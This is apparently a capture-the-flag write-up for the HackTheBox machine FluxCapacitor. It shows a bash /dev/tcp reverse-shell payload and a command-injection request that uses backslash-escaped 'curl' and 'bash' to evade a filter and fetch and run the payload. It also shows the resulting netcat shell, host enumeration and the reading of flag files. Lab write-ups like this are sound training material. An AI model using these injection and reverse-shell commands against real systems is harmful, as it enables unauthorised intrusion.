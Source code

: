 ## Reverse shell

Create index.htm
```
bash -i >& /dev/tcp/10.10.14.32/4444 0>&1
```
Serve it with Python
Upload it
```
# curl "http://10.10.10.69/sync?opt='? c\u\rl 10.10.14.32:8000 -o /tmp/a'"
bash: -c: option requires an argument
```
Run it
```
root@kali:~/htb/YoloToolbox/machines/htb/fluxcapacitor# curl "http://10.10.10.69/sync?opt='? b\a\s\h /tmp/a '"
```
Get shell on nc
```
r# nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.32] from fluxcapacitor.htb [10.10.10.69] 34538
bash: cannot set terminal process group (596): Inappropriate ioctl for device
bash: no job control in this shell
nobody@fluxcapacitor:/$ id
id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
nobody@fluxcapacitor:/$ 


```

## System

```
$ cat /etc/issue
cat /etc/issue
Ubuntu 17.10 \n \l

nobody@fluxcapacitor:/$ uname -a
uname -a
Linux fluxcapacitor 4.13.0-17-generic #20-Ubuntu SMP Mon Nov 6 10:04:08 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

## User flag

```
ls -al /home/*/*.txt
ls -al /home/*/*.txt
-rw-r--r-- 1 root      root      33 Dec  5  2017 /home/FluxCapacitorInc/user.txt
-r--r--r-- 1 themiddle themiddle 46 Dec  5  2017 /home/themiddle/user.txt

cat /home/*/*.txt
cat /home/*/*.txt
XXXXXXXXXXXXXXXXXXXXXXXx
Flags? Where we're going we don't need flags.
```
